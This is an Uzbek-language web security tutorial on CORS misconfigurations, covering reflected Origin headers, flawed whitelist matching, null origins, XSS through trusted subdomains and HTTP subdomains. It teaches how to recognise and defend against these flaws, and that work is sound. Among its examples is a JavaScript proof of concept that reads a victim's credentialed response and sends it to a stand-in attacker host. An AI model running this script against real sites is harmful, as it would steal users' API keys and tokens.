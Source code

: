 **CORS sozlamalaridagi zaifliklardan kelib chiqadigan muammolar**
Ko‘plab zamonaviy veb-saytlar subdomenlar va ishonchli uchinchi tomonlardan kirishga ruxsat berish uchun CORSdan foydalanadi. Ularning CORSni amalga oshirishida xatoliklar bo‘lishi yoki hammasi ishlashi uchun juda bo‘shashgan sozlamalar qo‘llanilishi mumkin, va bu ekspluatatsiya qilinishi mumkin bo‘lgan zaifliklarga olib keladi.

### Mijoz tomonidan yuborilgan `Origin` sarlavhasidan server tomonidan yaratilgan `Access-Control-Allow-Origin` sarlavhasi

Ba’zi ilovalar boshqa bir qancha domenlarga kirishni ta’minlashi kerak. Ruxsat berilgan domenlar ro‘yxatini saqlash doimiy e’tibor talab qiladi va har qanday xato funksionallikni buzish xavfini tug‘diradi. Shuning uchun ba’zi ilovalar oson yo‘lni tanlab, amalda istalgan boshqa domenlardan kirishga ruxsat beradigandek qiladilar.

Buning bir usuli — so‘rovlardan kelgan `Origin` sarlavhasini o‘qib, javobga so‘rov yuborgan origin ruxsat etilganligini ko‘rsatadigan sarlavha qo‘shishdir. Masalan, quyidagi so‘rov yuborilgan deb tasavvur qilaylik:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Ilova quyidagicha javob beradi:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Ushbu sarlavhalar so‘rov yuborgan domen (malicious-website.com)dan kirish ruxsat etilganini va xoch-manba so‘rovlari cookie’larni o‘z ichiga olishi mumkinligini (`Access-Control-Allow-Credentials: true`) bildiradi, ya’ni ular sessiya kontekstida qayta ishlanadi.

Ilova `Access-Control-Allow-Origin` sarlavhasida ixtiyoriy originni aks ettirgani uchun, bu zaif domenning istalgan domeni undan resurslarni o‘qishi mumkin degani. Agar javobda API kaliti yoki CSRF tokeni kabi maxfiy ma’lumot bo‘lsa, buni o‘zingizning saytingizga quyidagi skriptni joylab olinishingiz mumkin:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

### `Origin` sarlavhasini tahlil qilishdagi xatolar

Bir nechta originlardan kirishni qo‘llab-quvvatlaydigan ba’zi ilovalar ruxsat berilgan originlar oq ro‘yxatini (whitelist) ishlatadi. CORS so‘rovi kelganda, taqdim etilgan origin oq ro‘yxat bilan solishtiriladi. Agar origin ro‘yxatda bo‘lsa, u `Access-Control-Allow-Origin` sarlavhasida aks ettiriladi va kirishga ruxsat beriladi. Masalan, ilova quyidagi oddiy so‘rovni oladi:

```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

Ilova taqdim etilgan originni ruxsat etilgan originlar ro‘yxati bilan tekshiradi va agar ro‘yxatda bo‘lsa, originni quyidagicha aks ettiradi:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

CORS origin oq ro‘yxatlarini amalga oshirishda ko‘pincha xatolar yuzaga keladi. Ba’zi tashkilotlar barcha subdomenlaridan (kelajakdagi hali mavjud bo‘lmagan subdomenlar ham) kirishga ruxsat berishga qaror qilishadi. Ba’zi ilovalar esa turli tashkilotlarga tegishli domenlar va ularning subdomenlaridan kirishga ruxsat beradi. Bu qoidalar ko‘pincha URL prefiks yoki suffiksi bo‘yicha moslash, yoki muntazam ifodalar (regular expressions) yordamida amalga oshiriladi. Implementatsiyadagi har qanday xato kutilmagan tashqi domenlarga ruxsat berilishiga olib kelishi mumkin.

Masalan, tasavvur qilaylik, ilova quyidagi bilan tugaydigan barcha domenlarga ruxsat beradi:

```
normal-website.com
```

Hujumchi quyidagi domenni ro‘yxatdan o‘tkazib, kirish imkoniyatini qo‘lga kiritishi mumkin:

```
hackersnormal-website.com
```

Yana, agar ilova quyidagilar bilan boshlanuvchi barcha domenlarga ruxsat bersa:

```
normal-website.com
```

Hujumchi quyidagi domenni ishlatib kirish imkonini olishi mumkin:

```
normal-website.com.evil-user.net
```

**Null (`null`) origin qiymatining oq roʻyxatga olinishi**
`Origin` sarlavhasi spetsifikatsiyasi `null` qiymatini qoʻllab-quvvatlaydi. Brauzerlar turli gʻayrioddiy holatlarda `Origin` sarlavhasida `null` qiymatini joʻnatishi mumkin:

* Xoch-manbali (cross-origin) yoʻnaltirishlar (redirects).
* Seriyalizatsiyalangan ma’lumotlardan yuborilgan soʻrovlar.
* `file:` protokoli yordamida yuborilgan soʻrovlar.
* Sandboxed (qum qutisidagi) xoch-manbali soʻrovlar.

**CORS ishonch munosabatlari orqali XSS’dan foydalanish**
Hatto “to‘g‘ri” sozlangan CORS ham ikki origin (manba) o‘rtasida ishonch munosabatini o‘rnatadi. Agar bir sayt XSS (cross-site scripting) ga zaif originni ishonchli deb bilsa, hujumchi shu XSS zaifligidan foydalanib JavaScript injektsiya qilishi va CORS orqali uni ishonadigan saytdan maxfiy ma’lumotlarni olish uchun ishlatishi mumkin.

Quyidagi so‘rov berilgan deb faraz qilaylik:

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Agar server quyidagicha javob bersa:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Unda `subdomain.vulnerable-website.com` da XSS zaifligini topgan hujumchi ushbu zaiflikni CORS bilan birga ishlatib API kalitni olishi mumkin. Masalan, quyidagi URL orqali:

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

**Yomon sozlangan CORS orqali TLS (HTTPS)ni buzish**
Tasavvur qiling, qat’iy ravishda HTTPS dan foydalanadigan ilova ham ishonchli deb bilgan subdomenni oq ro‘yxatga qo‘ygan, lekin o‘sha subdomen oddiy HTTP (shifrlanmagan)ni ishlatadi. Masalan, ilova quyidagi so‘rovni oladi:

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Ilova quyidagicha javob beradi:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Bunday holatda, agar `trusted-subdomain.vulnerable-website.com` HTTPS orqali emas, balki HTTP orqali ishlasa, yomon niyatli tomonlar o‘rtadagi odam (MITM) hujumlari yoki trafikni manipulyatsiya qilish orqali maxfiy ma’lumotlarni o‘zlashtirishi mumkin — ya’ni CORS konfiguratsiyasining noaniqligi TLS/HTTPS himoyasini zaiflashtiradi.


